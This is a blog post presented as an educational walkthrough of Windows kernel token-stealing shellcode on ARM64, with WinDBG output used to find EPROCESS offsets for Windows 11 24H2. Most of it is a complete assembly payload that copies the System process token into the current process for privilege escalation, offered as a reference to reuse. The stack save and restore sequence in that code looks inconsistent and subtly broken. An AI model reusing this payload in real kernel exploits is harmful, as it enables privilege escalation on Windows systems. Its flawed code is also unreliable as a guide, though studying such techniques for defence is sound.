 ```yaml
---
layout: default
title: "Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive"
date: 2024-12-21 15:00:00 -0000
categories: posts
---
```


# Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive

Token stealing is a common windows kernel shellcode technique. Today, we'll analyze an ARM64 assembly implementation that demonstrates this technique. This is for educational purposes only, and is intended to demonstrate how token stealing can be reimplemented on other architectures.

## The Code Structure

Let's break down the key components:

### Determining Kernel Offsets

Using a WinDBG kernel debugging session, we can determine the offsets for the following structures:

```armasm
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token
```

The KTHREAD and EPROCESS offset can be obtained by disassembling `nt!PsGetCurrentProcess`.

```armasm
0: kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff803`dfee6b70 f944c648 ldr         x8,[xpr,#0x988]
fffff803`dfee6b74 f9405900 ldr         x0,[x8,#0xB0]
fffff803`dfee6b78 d65f03c0 ret
```

The `xpr` register is an alias for `x18`, a platform specific register which points to KPCR in kernel mode as per [https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170](https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170).

The ACTIVEPROCESSLINKS offset is obtained by examining the EPROCESS structure.

```armasm
0: kd> !process 4 0
Searching for Process with Cid == 4
PROCESS ffffe609926a5080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 400aa000  ObjectTable: ffffd30c54229c80  HandleCount: 2819.
    Image: System

0: kd> dt nt!_EPROCESS ffffe609926a5080 ActiveProcessLinks
   +0x1c8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe609`92721248 - 0xfffff803`e09786c0 ]
```

The same process can be used to determine the PID_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 UniqueProcessId
   +0x1c0 UniqueProcessId  : 0x00000000`00000004 Void
```
and TOKEN_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 Token
   +0x238 Token              : _EX_FAST_REF
```

## The Token Stealing Process

### 1. Register Preservation
The code begins by saving the `x0` and `x1` registers to the stack, since we'll be using them later:
```armasm
stp x0, x1, [sp, #-0x20]
stp x2, x3, [sp, #-0x10]
```

### 2. Locating Current Process
```armasm
ldr x0, [xpr, #0x988]    ; Get KTHREAD
ldr x0, [x0, #0xB0]      ; Get EPROCESS
```

This sequence retrieves the current process's EPROCESS structure into `x0`.

### 3. Finding System Process
The code then enters a loop to traverse the process list until it finds the System process (PID 4):
```armasm
find_system:
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system
```

### 4. Token Swapping
Once the System process is found, its token is copied to our current process:
```armasm
ldr x2, [x0, TOKEN_OFFSET]    ; Get System token
str x2, [x1, TOKEN_OFFSET]    ; Set token in our process
```


## Technical Notes

- The code uses ARM64's `stp`/`ldp` instructions for efficient register pairs handling
- The implementation assumes specific Windows kernel structure layouts (Windows 11 24H2)

## The Code

Below is the ARM64 assembly code for the token stealing process in armasm64 syntax.

```armasm
; Constants for Windows kernel offsets
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token

    AREA |.text|,CODE,READONLY
    ALIGN

token_stealing PROC
    ; Save registers
    stp x0, x1, [sp, #-0x20]
    stp x2, x3, [sp, #-0x10]

    ldr x0, [xpr, #0x988]
    ldr x0, [x0, #0xB0]

    mov x1, x0                    ; Save current EPROCESS in x1

    ; System process PID (4)
    mov x2, #4

find_system
    ; Get next process
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS    ; Adjust to get EPROCESS base

    ; Compare PID
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system

    ; Found System process, copy token
    ldr x2, [x0, TOKEN_OFFSET]        ; Get System token
    str x2, [x1, TOKEN_OFFSET]        ; Set token in our process

    ; Restore registers
    ldp x0, x1, [sp, #0x0]
    ldp x2, x3, [sp, #0x10]
    ldp fp,lr,[sp],#0x0
    add sp, sp, #0x30
    ret
    ENDP

    END

```

## Conclusion

This post describes how token stealing can be implemented, and derived, on ARM64, and can serve as a reference on how to implement token stealing on other architectures.

The offsets used in this code are specific to Windows 11 24H2, and may need to be adjusted for other versions of Windows.
